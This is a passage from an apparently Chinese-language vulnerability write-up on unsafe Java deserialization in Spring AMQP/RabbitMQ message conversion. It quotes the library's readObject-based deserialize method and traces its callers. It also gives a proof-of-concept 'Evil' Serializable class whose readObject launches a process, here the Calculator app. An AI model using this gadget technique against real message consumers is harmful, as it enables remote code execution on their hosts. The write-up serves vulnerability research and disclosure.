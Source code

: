          }
      }
	   }
	   if (content == null) {
	      content = message.getBody();
	   }
	   return content;
	}
  	
其中deserializer.deserialize是将message反序列化的过程，至于deserialize函数的内容如下:
	
	/**
	 * Read from the supplied {@code InputStream} and deserialize the contents
	 * into an object.
	 * @see ObjectInputStream#readObject()
	 */
	@Override
	@SuppressWarnings("resource")
	public Object deserialize(InputStream inputStream) throws IOException {
	   ObjectInputStream objectInputStream = new ConfigurableObjectInputStream(inputStream, this.classLoader);
	   try {
	      return objectInputStream.readObject();
	   }
	   catch (ClassNotFoundException ex) {
	      throw new NestedIOException("Failed to deserialize object type", ex);
	   }
	}
	
熟悉的readObject，只要想办法控制objectInputStream,那么就可以执行任意代码了,先查看调用链:
![](http://pic.findbugs.top/18-2-7/82952844.jpg)
找到rabbitTemplate.convertSendAndReceive和rabbitTemplate.receiveAndConvert
先写一个实体类:
	
	package test;

	import java.io.*;
	
	/**
	 * Created by bsmali4 on 18/1/29.
	 */
	public class Evil implements Serializable {
	    private void readObject(ObjectInputStream objectInputStream) throws IOException, ClassNotFoundException {
        objectInputStream.defaultReadObject();
        new ProcessBuilder("open", "/Applications/Calculator.app/").start();
    }
	}
	
调试到如下位置:
![](http://pic.findbugs.top/18-2-7/32871900.jpg)
触发位置就在fromMessage，那么在convertAndSend的时候不能是简单的任意对象了，必须是Message类或者其子类了。其中fromMessage代码如下:

